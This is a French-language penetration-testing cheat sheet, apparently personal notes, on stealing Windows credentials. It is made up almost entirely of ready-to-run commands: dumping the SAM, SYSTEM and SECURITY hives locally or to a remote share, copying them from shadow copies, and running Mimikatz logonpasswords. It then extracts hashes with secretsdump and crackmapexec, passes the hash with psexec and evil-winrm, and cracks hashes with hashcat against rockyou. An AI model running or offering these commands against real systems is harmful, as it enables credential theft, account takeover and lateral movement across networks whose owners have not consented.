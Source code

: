 ```yaml
---
public: true
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save


SET TARGET=172.16.5.225
reg save hklm\sam \\%TARGET%\share\sam.save
reg save hklm\system \\%TARGET%\share\system.save
reg save hklm\security \\%TARGET%\share\security.save

```

Création d'un cliché instantané si besoin

```shell
wmic shadowcopy call create Volume="C:\"
```

Liste des clichés disponibles

```shell
vssadmin.exe list shadows # Noter la ligne 'Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3'

mkdir C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\temp\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\temp\SAM
```

### Mimikatz

```
PS > .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > mimikatz_output.txt

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
mimikatz.exe "privilege::debug; sekurlsa::logonpasswords; exit" >> mimikatz_output.txt



**powershellz** \\172.16.5.225\share\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
